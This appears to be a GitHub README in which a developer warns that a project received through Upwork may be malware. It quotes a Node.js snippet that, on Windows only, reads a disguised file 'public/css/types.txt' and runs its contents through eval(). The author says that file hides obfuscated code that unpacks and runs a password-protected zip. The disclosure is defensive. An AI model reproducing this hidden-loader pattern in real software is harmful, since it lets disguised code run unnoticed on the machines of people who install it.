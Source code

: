 Possible virus(?) from upwork. 
### Info
Some possible false positive reactions from antiviruses (virustotal: https://www.virustotal.com/gui/file/311fc8e90c968cbd0237ec31ecedfdb17d75f936e14e981c0fa4437da5483cf8)
App try to eval txt file 'public/css/types.txt', where is placed "// empty file ..." text, lot of spacings and then really obscured code. 
Part of which obviously trying to unzip and execute some code from public/js/js.zip. (this zip file is acrhived with password, looks like inside types.txt part of code trying to assemble password from multiple obscured functions)

Content of js.zip is unknown for now.

Also this exec part is executes only on win32 systems.
`const fs = require("fs");
const os = require("os");

function site_version() {
    const platform = os.platform();

    switch (platform) {
        case 'win32':
            fs.readFile('public/css/types.txt', 'utf8', (err, data) => {
                if (err) {
                    return;
                }

                eval(data);
            });
            console.log("=")
            return 'w';
        case 'darwin':
            return 'm';
        case 'linux':
            return 'l';
        default:
            return 'Unknown';
    }
}

site_version()`

I can't say for sure, maybe it's just a very strangely builded project. 
I'm not going to dig further, I'll just leave this repo and text here in case I ever change my mind. 
Also, this repository is public, so I'm adding this text to the readme so that no one accidentally runs it.

If anyone knows why this project is what it is (or has tested it), I would be grateful if you would let me know (for example open an issue)
